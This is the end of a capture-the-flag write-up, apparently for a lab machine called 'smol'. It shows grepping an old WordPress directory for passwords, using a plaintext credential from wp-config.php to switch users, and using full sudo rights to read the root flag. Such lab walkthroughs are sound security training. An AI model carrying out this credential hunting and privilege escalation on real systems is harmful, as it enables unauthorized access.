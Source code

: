 There are many files let's look for credentials:
```bash
cd wordpress.old
```
```bash
grep -lr password
```


We find Xavi password inside the `wp-config.php` file: `P@ssw0rdxavi@`

Now move to xavi:
```bash
su xavi
```

<br/>

#### Becoming Root
Check if we can run anything as sudo:
```bash
suod -l
```

Yes!
```
User xavi may run the following commands on smol:
    (ALL : ALL) ALL
```

Read the root flag:
```bash
sudo cat /root/root.txt
```

<br/>
<br/>

## Conclusion
Congratulations you have successfully dumped the database data and escalate your privileges through several user to become root.

I hope you had fun doing the challenge and following along!

Catch you in the next CTF 😃 
